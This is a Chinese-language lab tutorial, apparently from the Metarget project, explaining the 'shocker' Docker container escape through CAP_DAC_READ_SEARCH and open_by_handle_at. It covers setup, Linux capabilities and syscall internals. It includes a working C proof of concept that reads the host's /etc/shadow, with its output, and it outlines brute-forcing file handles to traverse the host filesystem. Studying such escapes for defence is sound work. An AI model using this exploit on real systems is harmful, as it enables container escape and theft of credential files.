



# 滥用CAP_DAC_READ_SEARCH（shocker攻击）导致容器逃逸

## 场景介绍

在早期的docker中，容器内是默认拥有`CAP_DAC_READ_SEARCH`的权限的，拥有该capability权限之后，容器内进程可以使用open_by_handle_at系统调用来爆破宿主机的文件内容。

- **危害**：容器内可以访问宿主机大部分文件。
- **漏洞要求**：容器内进程需要`CAP_DAC_READ_SEARCH` capability的权限。


## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install cap_dac_read_search-container
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`cap-dac-read-search-container`的带有`CAP_DAC_READ_SEARCH`权限的pod。

注：此场景较为简单，也可以直接使用Docker手动搭建。默认存在漏洞的Docker版本过于久远，但是复现漏洞可以使用任意版本的Docker，只需要在启动Docker时，通过`--cap-add`选项来添加`CAP_DAC_READ_SEARCH` capability的权限即可。

## 漏洞复现

在Docker版本< 1.0中，docker内的进程拥有`CAP_DAC_READ_SEARCH` capability的权限，该capability的描述如下 : [link](https://man7.org/linux/man-pages/man7/capabilities.7.html )

> ```
>  CAP_DAC_READ_SEARCH  
>               * Bypass file read permission checks and directory read  
>                 and execute permission checks;  
>               * invoke open_by_handle_at(2);  
>               * use the linkat(2) AT_EMPTY_PATH flag to create a link to  
>                 a file referred to by a file descriptor.  
> ```

从描述中可以看出，拥有该权限，**可以绕过文件的读权限检查和目录的读和执行权限检查。`open_by_handle_at`该系统调用需要该cap的权限才能执行。**

`open_by_handle_at` 解释如下：[link](https://man7.org/linux/man-pages/man2/open_by_handle_at.2.html )

> ```
> The caller must have the CAP_DAC_READ_SEARCH capability to invoke  
>        open_by_handle_at().
> ```

当前docker版本已经远大于1.0了，`CAP_DAC_READ_SEARCH` 权限已经默认不开启。需要复现的话，我们可以在新版本的docker中，手动加上`CAP_DAC_READ_SEARCH`该capability的权限。

启动如下docker并查看其capability：

```
$ docker run -itd --cap-add CAP_DAC_READ_SEARCH ubuntu /bin/bash
35a80d6e81bdebbc14e2d338c960e8a2131c1b6a72356bd4075313348b5f7b30
$ docker top 35
UID   PID    PPID   C    STIME    TTY     TIME      CMD
root  1154   1120   0    03:04    pts/0   00:00:00  /bin/bash
$ getpcaps 1154
Capabilities for `1154': = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
```

看到该容器内已经有了`cap_dac_read_search`的权限。

下载 https://github.com/gabrtv/shocker 中的shocker.c的poc，更改shocker.c中 `.dockerinit` 文件为 `/etc/hosts`：

```c
// get a FS reference from something mounted in from outside
if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
  die("[-] open");
// 更改如下，这个文件需要和宿主机在同一个挂载的文件系统下，而高版本的.dockerinit已经不在宿主机的文件系统下了。
// 但是/etc/resolv.conf,/etc/hostname,/etc/hosts等文件仍然是从宿主机直接挂载的，属于宿主机的文件系统。
if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
  die("[-] open");
```

编译后，docker cp到容器内运行，结果为容器中访问到了**宿主机的/etc/shadow文件**。



## 漏洞原理

### Capability 介绍

我们对sudo机制比较熟悉，通过sudo su 我们可以直接切换成root用户，原因在于sudo 程序具有SUID位，具有SUID位的程序在执行的时候，会获得该文件拥有者的权限，sudo程序的拥有者是root用户，所以我们在执行sudo的时候，sudo程序获得的是root的权限。

查看sudo程序，其中`-rwsr-xr-x`中的s即代表SUID位，同时该文件的拥有者为root。

```
$ ls -al /usr/bin/sudo
-rwsr-xr-x 1 root root 149080 Sep 23  2020 /usr/bin/sudo
```

虽然这样可以解决一些权限的问题（比如sudo、passwd 都具有SUID位），但是如果SUID程序本身存在漏洞的话，那么就会导致权限提升的问题，典型案例参考漏洞CVE-2021-3156 - Linux sudo权限提升。

所以Linux增加了一种Capability 的机制，该机制将一些高级别的权限，划分的更加细致，包括CAP_AUDIT_CONTROL，CAP_BPF等等一系列的权限。

下面用个实例来解释一下Capability的功能。

我们知道，wireshark在安装的时候，可以使用非root用户进行数据包的抓取，这里的原理是什么？是不是wireshark的程序设置了SUID位，我们可以先看下wireshark的抓包程序dumpcap的属性。

```
$ ls -al /usr/bin/dumpcap #（也可能是/usr/sbin/dumpcap）
-rwxr-xr-- 1 root wireshark 104688 Sep  5  2019 /usr/bin/dumpcap
```

可以看到，`dumpcap`没有suid位，所以执行该命令的话，并不能获取root的权限。

而这里真正起作用的，便是Capability 机制，使用如下命令查看`/usr/bin/dumpcap`的capability。

```
$ getcap /usr/bin/dumpcap
/usr/bin/dumpcap = cap_net_admin,cap_net_raw+eip
```

`dumpcap`拥有`cap_net_admin`和`cap_net_raw`的两个cap权限，这两个权限的机制解释如下：[Link](https://man7.org/linux/man-pages/man7/capabilities.7.html)

> ```
> CAP_NET_ADMIN  
>               Perform various network-related operations:  
>               * interface configuration;  
>               * administration of IP firewall, masquerading, and  
>                 accounting;  
>               * modify routing tables;  
>               * bind to any address for transparent proxying;  
>               * set type-of-service (TOS);  
>               * clear driver statistics;  
>               * set promiscuous mode;  
>               * enabling multicasting;  
>               * use setsockopt(2) to set the following socket options:  
>                 SO_DEBUG, SO_MARK, SO_PRIORITY (for a priority outside  
>                 the range 0 to 6), SO_RCVBUFFORCE, and SO_SNDBUFFORCE.  
> CAP_NET_RAW  
>               * Use RAW and PACKET sockets;  
>               * bind to any address for transparent proxying.
> ```

这两个cap包含了大部分网络操作所需要的权限，所以`dumpcap`即使在wireshark用户组的条件下， 仍然能够进行网络数据包的抓取。

按照如下方法将vagrant用户加入wireshark 用户组，重新登录后执行`dumpcap`命令进行数据包的抓取。

```
$ sudo usermod -a -G wireshark vagrant
# 重新登录
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),120(wireshark),999(docker)
$ /usr/bin/dumpcap
Capturing on 'docker0'
File: /tmp/wireshark_docker0_20210713035535_sMQ8Fy.pcapng
Packets captured: 0
Packets received/dropped on interface 'docker0': 0/0 (pcap:0/dumpcap:0/flushed:0/ps_ifdrop:0) (0.0%)
```

从上面可以知道，当一个程序拥有特殊的cap权限的时候，是可以做一些高权限的事情的。比如`cap_net_admin`，`cap_net_raw`可以直接进行抓包。 `cap_setuid`这个权限可以直接更改用户的UID（如果具有该权限的程序可以执行任意代码的话，比如python等，那么就可以随意提权至root用户）。

而shocker漏洞，就是`CAP_DAC_READ_SEARCH`这个权限导致的问题，上面的参考提到，`open_by_handle_at`是需要这个权限的，接下来就对`open_by_handle_at`这个系统调用进行分析。

### open_by_handle_at系统调用

直接看官方的文档说明：[link](https://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)

> The name_to_handle_at() and open_by_handle_at() system calls  
> split the functionality of openat(2) into two parts:  
> name_to_handle_at() returns an opaque handle that corresponds to  
> a specified file; open_by_handle_at() opens the file  
> corresponding to a handle returned by a previous call to  
> name_to_handle_at() and returns an open file descriptor.

`open_by_handle_at`需要和`name_to_handle_at`这个系统调用进行配合，这两个函数将openat函数分成了两部分，首先由`name_to_handle_at`指定文件名，打开一个文件并获取这个文件的`handle`指针。然后传递给`open_by_handle_at`，由`open_by_handle_at`通过这个指针打开文件并返回一个`fd`文件描述符。

我们先看`name_to_handle_at`的参数和使用方法：

```c
 int name_to_handle_at(int dirfd, const char *pathname,
                             struct file_handle *handle,
                             int *mount_id, int flags);
```

第一个参数位`dirfd`，即目录的文件描述符（可以设置为`AT_FDCWD` -> `pathname`则是相对于进程当前工作目录的相对路径），第二个参数为文件路径，第三个参数为重要的结构体 `file_handle`，第四个参数为返回值，返回的是该文件的mount_id，第五个参数设置为0即可。

```c
struct file_handle {
  unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
	int           handle_type;    /* Handle type [out] */
	unsigned char f_handle[0];    /* File identifier (sized by caller) [out] */
};
```

`file_handle`的结构体如上所示，注意这里只有`handle_bytes`需要输入，其它的值都是返回的。

官方给出一个例子用来描述`name_to_handle_at`的使用方法：[link](https://github.com/foyjog/shocker-attack/blob/main/t_name_to_handle_at.c)

编译之后，调用结果如下：

```
$ ./t_name_to_handle_at /etc/passwd
26
8 1    bc 13 01 00 f4 cc 27 36
```

26 代表`/etc/passwd`的`mount_id` ，8是`file_handle`的`handle_bytes`，1是`handle_type`。后八个字节则是`f_handle`，它的大小等于`handle_bytes`（8个字节）。

`mount_id`可以通过`cat /proc/self/mountinfo`获取，可以看到`/etc/passwd`是挂载在/根目录下。

```
$ cat /proc/self/mountinfo
21 26 0:20 / /sys rw,nosuid,nodev,noexec,relatime shared:7 - sysfs sysfs rw
22 26 0:4 / /proc rw,nosuid,nodev,noexec,relatime shared:13 - proc proc rw
23 26 0:6 / /dev rw,nosuid,relatime shared:2 - devtmpfs udev rw,size=491532k,nr_inodes=122883,mode=755
24 23 0:21 / /dev/pts rw,nosuid,noexec,relatime shared:3 - devpts devpts rw,gid=5,mode=620,ptmxmode=000
25 26 0:22 / /run rw,nosuid,noexec,relatime shared:5 - tmpfs tmpfs rw,size=100860k,mode=755
26 0 8:1 / / rw,relatime shared:1 - ext4 /dev/sda1 rw,data=ordered
...
```

**注：**mount的文件类型有多种，`name_to_handle_at`对一些文件系统是不支持的，比如docker本身挂载的overlay2类型，这也是文章开头所说，漏洞危害是容器内可以访问宿主机**大部分**文件。 详情如下：

```
$ ./t_name_to_handle_at /var/lib/docker/overlay2/099d3a43680579b1115173faa2e32e698451d6d0551b28122310eaf78d593cd0/merged/etc/passwd

Operation not supported
Unexpected result from name_to_handle_at()
```

`f_handle`前4个字节为0x0113bc（70588），这个值等于`/etc/passwd`的`inodeid`。

```
$ stat /etc/passwd
File: /etc/passwd
Size: 1773      	Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d	Inode: 70588       Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
```

理一下，`name_to_handle_at`需要调用两次:

1. 第一次输入文件名，函数返回该文件的`mount_id`及其对应的`file_handle`结构体指针，该结构体包括了`handle_bytes`的大小（即`f_handle`的大小）。
2. 利用第一次得到的`f_handle`的大小，重新调整`file_handle`结构体的大小并作为第二次调用`name_to_handle_at`的输入，函数返回f_handle的值（4+x个字节），其前四个字节为文件的`inodeid`。后x个字节是每个文件都有的固定的一个值。**（上面的事例可以得知，ext4文件类型中，`handle_bytes`为8，x个字节为4个字节）**。

分析了`name_to_handle_at`，主要是为了理解`open_by_handle_at`的输入是什么，现在看一下`open_by_handle_at`的函数原型：

```c
int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);
```

`mount_fd`解释如下：

> The mount_fd argument is a file descriptor for any object (file,  
> directory, etc.)  in the mounted filesystem with respect to which  
> handle should be interpreted.  The special value AT_FDCWD can be  
> specified, meaning the current working directory of the caller.

该参数可以是一个已mount文件系统上的任意一个文件的文件描述符，这就是为什么一开始我们poc中，需要将`/.dockerinit` 文件名，改为 `/etc/hosts`，因为我们需要读取宿主机根文件系统中的文件，`/etc/resolv.conf`，`/etc/hostname`，`/etc/hosts`等文件在新版本的docker中，仍然是从宿主机直接挂载的，属于宿主机的根文件系统。



`*handle`就非常明确了，我们刚才所分析`name_to_handle_at`所返回的参数。`flags`参数和open类似。

按照官方的例子，使用`open_by_handle_at`读取`name_to_handle_at`所指定的文件内容。[link](https://github.com/foyjog/shocker-attack/blob/main/t_open_by_handle_at.c)

> ```
> $ echo 'Can you please think about it?' > cecilia.txt
> $ ./t_name_to_handle_at cecilia.txt > fh
> $ ./t_open_by_handle_at < fh
> open_by_handle_at: Operation not permitted
> $ sudo ./t_open_by_handle_at < fh      # Need CAP_SYS_ADMIN
> Read 31 bytes
> $ rm cecilia.txt
> ```

### 漏洞利用

如果我们想要在虚拟机中通过`open_by_handle_at`读取宿主机的文件的话，那么需要两个关键的参数。

1. 宿主机文件系统中文件的文件描述符：这个很容易，直接打开/etc/hosts文件获取其文件描述符就行。
2. 宿主机文件的`file_handle`的`handle_bytes`成员（ext4为8），`handle_type`成员（1）和`f_handle`成员（`inodeid`+4个未知字节）。

先在宿主机中查看 `/etc/shadow` 的`file_handle`。

```
$ ./t_name_to_handle_at /etc/shadow
26
8 1    25 18 01 00 c6 fd c8 4d
```

利用上述宿主机文件/etc/shadow的`file_handle`细节，编写如下poc，然后在docker中执行。

```c
#define _GNU_SOURCE
#include <errno.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <limits.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void die(const char *msg)
{
	perror(msg);
	exit(errno);
}

int main(){
	char read_buf[0x1000];
	struct file_handle *fhp;
	int handle_bytes = 8;
	char f_handle[8] = {0x25, 0x18, 0x01, 0x00, 0xc6, 0xfd, 0xc8,0x4d};
	int fd_hosts,fd_host_shadow;
	fhp = malloc(sizeof(struct file_handle) + handle_bytes);
	fhp->handle_bytes = handle_bytes;
	fhp->handle_type = 1;
	memcpy(fhp->f_handle,f_handle,8);
	if ((fd_hosts = open("/etc/hosts", O_RDONLY)) < 0)
		die("[-] open");
	fd_host_shadow = open_by_handle_at(fd_hosts, fhp, O_RDONLY);
	if(fd_host_shadow < 0){
		die("[-] open host shadow");
	}
	memset(read_buf,0,sizeof(read_buf));
	if (read(fd_host_shadow, read_buf, sizeof(read_buf) - 1) < 0)
		die("[-] read");
	printf("fd_host_shadow file content is \n%s ",read_buf);

}
```

执行结果如下：

```
$ docker run -it --cap-add CAP_DAC_READ_SEARCH ubuntu /bin/sh
$ ./poc
fd_host_shadow file content is
root:*:18575:0:99999:7:::
daemon:*:18575:0:99999:7:::
bin:*:18575:0:99999:7:::
sys:*:18575:0:99999:7:::
sync:*:18575:0:99999:7:::
games:*:18575:0:99999:7:::
man:*:18575:0:99999:7:::
lp:*:18575:0:99999:7:::
mail:*:18575:0:99999:7:::
news:*:18575:0:99999:7:::
uucp:*:18575:0:99999:7:
...
```

根据上面的poc可以知道，在docker中，如果拥有`CAP_DAC_READ_SEARCH`权限，并且知道宿主机上文件的`file_handle`的`f_handle`成员（`inodeid`+4个未知字节），即能获取到宿主机的文件。

而在宿主机中，根目录 `/`的inodeid一般为2，剩下的4个字节为0。即根目录 `/` 的`f_handle`为`02 00 00 00 00 00 00 00`，根据这个信息，我们就可以直接在docker中，使用`open_by_handle_at `获取系统根目录的文件描述符。

```
$ ./t_name_to_handle_at /
26
8 1    02 00 00 00 00 00 00 00
```

而对于根目录下的任意文件，可以先获取根目录的文件描述符，然后读取根目录下的二级目录的inodeid和二级目录名称，匹配需要读取文件的二级目录并拿到inodeid，剩下4个未知的字节直接爆破，进而拿到二级目录的文件描述符。然后继续以同样的方式进行逐层读取。



## 参考文献

1. https://github.com/gabrtv/shocker/blob/master/shocker.c
2. https://developer.aliyun.com/article/57803
3. https://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
4. https://man7.org/linux/man-pages/man7/capabilities.7.html
